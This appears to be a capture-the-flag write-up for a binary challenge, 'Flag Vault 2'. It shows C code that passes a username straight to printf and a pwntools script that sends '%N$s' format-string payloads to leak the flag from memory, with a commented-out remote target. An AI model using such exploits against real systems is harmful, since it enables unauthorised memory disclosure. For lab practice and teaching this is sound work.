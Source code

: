 ```yaml
---
title: "Flag Vault 2"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flags: THM{REDACTED}
---
```

> No description.

---

Given a binary, we can see that it is a simple program that reads a username. The flag is read from a file but is never printed to the screen. The user's input is printed to the screen as well.

```c
void print_flag(char *username){
        FILE *f = fopen("flag.txt","r");
        char flag[200];

        fgets(flag, 199, f);
        //printf("%s", flag);
	
	//The user needs to be mocked for thinking they could retrieve the flag
	printf("Hello, ");
	printf(username);
	printf(". Was version 2.0 too simple for you? Well I don't see no flags being shown now xD xD xD...\n\n");
	printf("Yours truly,\nByteReaper\n\n");
}
```

Ah, another classic format string vulnerability. We can use the `%s` format string to read the flag from memory. We can use the following script to read the flag:

```py
from pwn import *

binary = './pwn21'

context.log_level = 'debug'
context.binary = binary
context.endian = 'big'

for i in range(32):
    e = ELF(binary)
    r = process(binary)
    # r = remote('10.10.191.2', 1337)

    r.sendlineafter(b'Username: ', flat([
        f"%{i}$s",
    ]))

    r.interactive()
```
